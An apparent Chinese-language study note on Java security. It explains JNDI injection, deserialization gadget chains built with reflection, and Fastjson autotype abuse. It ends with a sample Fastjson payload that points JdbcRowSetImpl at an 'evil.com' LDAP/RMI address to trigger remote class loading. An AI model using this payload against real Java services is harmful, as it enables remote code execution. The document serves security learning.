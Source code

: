 # JNDI注入

JNDI全称是java命名和目录接口，它的作用是将服务名称和对象关联，使得开发人员可以统一通过服务名称访问对象。比如DNS服务，LDAP服务，RMI等都可以通过JNDI API统一处理。

JNDI需要多种**服务提供商**提供服务，然后统一用同一套JNDI API访问，这意味程序员不需要关心底层的服务到底是RMI还是LDAP，只需要使用统一的JNDI接口进行查找即可。底层服务有：

- **RMI** - Java远程方法调用
- **LDAP** - 轻量级目录访问协议
- **CORBA** - 公共对象请求代理体系结构
- **DNS** - 域名系统

这里介绍RMI（Remote Method Invocation）。这是java语言实现的一种基于类的远程RPC调用。RMI一般是使用JRMP协议实现，但是在weblogic中，weblogic可以选择使用独有的t3协议实现RMI。后面webglogic  T3反序列化漏洞会讲到

JNDI注入是lookup()查询的目标被控制，服务器会查询一个恶意类。这里的关键是**会自动远程加载并实例化这个恶意类**，也就是执行类中的恶意代码。

JNDI注入本质上归类为**对象注入**，而反序列化是最常见的一种注入对象的方式。因为序列化本身就是为了传输对象，这也能看出来JAVA反序列化和JNDI注入的关系了。

# JAVA反序列化

Java中，任何实现了java.io.Serialible接口的类的对象都可以序列化。反序列化漏洞和php反序列化类似，主要是利用一些自动执行的“魔术方法”，比如readObject()方法。

我们最终目标是利用像php的`system（）`、python的`os.popen()`这些函数来执行命令。php的函数都是内置的，任何一个程序都是拿来就用。python要使用os.popen就要引入os模块。而java执行系统命令常用`java.lang.Runtime`类的实例化对象的`exec`方法，但是我们怎么搞出来一个它的实例化对象呢？

## 反射

这里就要用到java的反射机制。反射指的是在程序运行过程中，可以动态获取一个类的属性，方法（静态方法属于类），并且动态调用它的实例化对象的属性和方法。

比如：

1. 使用class.forName()，通过类名获取`java.lang.Runtime`类对象（java中类也是对象）
2. getMethod()方法找这个类的静态方法`getRuntime`
3. 通过`getRuntime`可以获取一个Runtime类的实例
4. getMethod()方法找实例中的exec()方法
5. 通过invoke()方法调用exec()执行系统命令

java反序列化利用中可以使用多个类相互配合，最直接形成一条利用链。比较有名的就是Commons Collections，这是一个非常流行的Java基础库。

java很多存在序列化功能的第三方库，比如Apache Shiro，就可以利用Common Collections链构造的恶意序列化数据。

**Java反序列化漏洞为JNDI注入提供了一个稳定、隐蔽且强大的“触发入口”。**

## FastJson

java反序列化也可以实现JNDI注入，比如fastjson库，可以通过指定 `@type` 属性，告诉程序这个JSON字符串**应该被还原成哪种具体的Java类**。早期版本的Fastjson在处理这个 `@type` 时，会**自动去加载并实例化指定的类**。如果这个类位于某个远程的JNDI资源上，它就会**触发JNDI查询**！比如：

```
{
  "@type": "com.sun.rowset.JdbcRowSetImpl",
  "dataSourceName": "ldap(rmi)://evil.com/exploit",
  "autoCommit": true
}
```
